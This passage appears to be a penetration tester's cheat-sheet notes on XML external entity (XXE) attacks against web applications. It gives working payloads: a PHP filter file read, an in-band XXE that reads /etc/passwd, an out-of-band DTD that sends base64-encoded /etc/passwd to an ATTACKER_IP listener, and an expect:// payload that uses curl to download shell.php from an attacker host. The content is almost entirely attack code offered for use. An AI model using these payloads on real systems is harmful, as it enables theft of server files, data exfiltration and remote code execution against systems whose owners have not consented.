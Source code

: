     This usage ensures that the special characters are processed correctly by the XML parser without breaking the document's structure.

#### File inclusion
[[LFI]]
```
php://filter/convert.base64-encode/resource=connection.php
```

### In-Band XXE Exploitation
Sending this request data:
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```
### Out-Of-Band XXE
[[Blind XXE]]
1. Create xxe.dtd file:
```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```
2. Serve this file
```bash
python -m http.server 1337
```
3. Send request
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE email [ 
	<!ENTITY % remote SYSTEM "http://ATTACKER:8000/xxe.dtd">
	  %remote;
	  %oobxxe;
	]>
	<root>
		&exfil;
	</root>
```

#### RCE
[[RCE]]
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
	<name></name>
	<tel></tel>
	<email>&company;</email>
	<message></message>
</root>
```
